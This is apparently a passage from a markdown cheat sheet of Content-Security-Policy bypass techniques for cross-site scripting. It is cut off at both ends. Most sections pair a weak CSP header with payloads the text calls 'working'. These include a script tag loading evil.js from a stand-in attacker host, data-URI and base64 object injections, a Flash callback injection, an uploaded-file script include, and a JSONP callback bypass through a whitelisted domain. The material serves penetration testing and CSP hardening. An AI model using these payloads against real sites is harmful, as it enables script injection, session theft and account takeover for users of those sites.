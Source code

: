 ```html
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```

## Missing default-src

```http
Content-Security-Policy: script-src 'self';
```

This is a misconfigured CSP policy due to missing `default-src`, allowing use `object-src`, working payloads:

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```

## Uploading files

```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```

If the application allows users to upload any type of file to the host, an attacker can upload any malicious script and call within any tag, working payload:

```html
"/>'><script src="/uploads/picture.png.js"></script>
```

## Bypass using JSONP

```http
Content-Security-Policy: script-src 'self' https://www.google.com; object-src 'none';
```

Scenarios like this where `script-src` is set to `self` and a particular domain which is whitelisted can be bypassed using JSONP. JSONP endpoints allow insecure callback methods which allow an attacker to perform XSS, working payload:

```html
"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
```

[JSONBee](https://github.com/zigoo0/JSONBee) contains a ready to use JSONP endpoints to CSP bypass of different websites.

## Bypass using vulnerable third-library

```http
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; object-src 'none';
```
